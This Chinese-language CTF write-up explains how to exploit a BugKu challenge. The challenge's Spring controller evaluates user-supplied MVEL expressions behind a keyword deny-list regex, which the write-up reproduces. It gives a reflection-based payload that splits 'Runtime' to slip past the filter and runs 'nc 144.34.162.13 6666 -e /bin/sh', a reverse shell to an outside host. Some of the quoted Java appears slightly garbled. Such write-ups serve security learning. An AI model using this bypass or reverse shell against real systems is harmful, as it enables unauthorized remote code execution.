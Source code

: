 ### 字符串拼接绕过

话不多说，直接上题（BugKu CTF）

![](https://pic1.imgdb.cn/item/681079d158cb8da5c8d3dfa5.png)

打开页面只有这一个功能可用

![](https://pic1.imgdb.cn/item/681085c058cb8da5c8d415aa.png)

在 Burp 中发现响应有个 `source`

![](https://pic1.imgdb.cn/item/6810860b58cb8da5c8d417c4.png)

访问拿到源码

![](https://pic1.imgdb.cn/item/6810863858cb8da5c8d41915.png)

使用 `@RestController` 注解，表示这是一个 Spring MVC 控制器，返回值会自动转换为 JSON 响应

```java
@RestController
public class MVELTest {
    // 类内容
}
```

初始化一个 `Setting` 对象，包含默认的 IP 列表和数字参数 6

```java
private Setting setting = new Setting("['115.195.167.159', '115.195.167.159', '164.90.230.201', '174.87.232.68']", 6);
```

处理 POST 请求，路径为 `/updateSysSetting`

接收 JSON 格式的 `Setting` 对象作为请求体

返回 JSON 响应，字符编码为 UTF-8

```java
@PostMapping(value = "/updateSysSetting", produces = "application/json;charset=UTF-8")
public ResponseObj updateSysSetting(@RequestBody Setting [ES], HttpServletResponse response) {
    // 方法实现
}
```

使用正则表达式检测传入的表达式是否包含危险关键词（如 Runtime、Process 等）

如果检测到恶意代码，返回 483 状态码和错误信息

```java
if (Pattern.matches(""{?i}.*(system[Runtime|Process|Thread|Lookup|http|Socket|restTemplate|MVEL|flag].*", [ES].getExp()) {
    response.setStatus(483);
    return new ResponseObj(false, "表达式包含恶意代码", "");
}
```

使用 MVEL 引擎执行传入的表达式

捕获并处理执行过程中的异常

```java
try {
    result = MVEL.expl(res.getExp());
    System.out.println(result.toString());
} catch (Exception e) {
    response.setStatus(580);
    return new ResponseObj(false, "表达式语法错误", e.getMessage());
}
```

尝试将结果转换为 `List<String>`（IP 列表）

如果转换失败，返回 580 状态码和错误信息

```java
try {
    allowedIP = (List<String>) result;
} catch (Exception e) {
    response.setStatus(580);
    return new ResponseObj(false, "表达式返回值不是IP列表", e.getMessage());
}
```

分析完毕后我们可以利用 Java 的反射机制来 RCE

```json
{
"exp": "''.getClass().forName('java.lang.Run'+'time').getMethod('exec',''.getClass()).invoke(''.getClass().forName('java.lang.Run'+'time').getMethod('getRu'+'ntime').invoke(null),'nc 144.34.162.13 6666 -e /bin/sh'))",
"limit": "60"
}
```

下面来解析下这段 payload

```java
// ''.getClass(): 获取空字符串的 Class 对象
''.getClass().forName('java.lang.Run'+'time')	// .forName('java.lang.Run'+'time'): 动态加载 java.lang.Runtime 类并返回其 Class 对象
  .getMethod('exec',''.getClass())	// 获取 Runtime.exec(String) 方法的 Method 对象
  .invoke(
    ''.getClass().forName('java.lang.Run'+'time')	// 再次获取 Runtime 类
      .getMethod('getRu'+'ntime')	// 获取静态方法 getRuntime()
      .invoke(null),	// 调用该方法（invoke(null) 因为这是静态方法）,返回 Runtime 类的单例实例
    'nc 144.34.162.13 6666 -e /bin/sh'	// 使用前面获取的 exec 方法，在 Runtime 实例上执行命令
  )
```

发送 payload

![](https://pic1.imgdb.cn/item/68108a8558cb8da5c8d42ac6.png)

监听端口拿到 flag

![](https://pic1.imgdb.cn/item/68108a9b58cb8da5c8d42ad5.png)

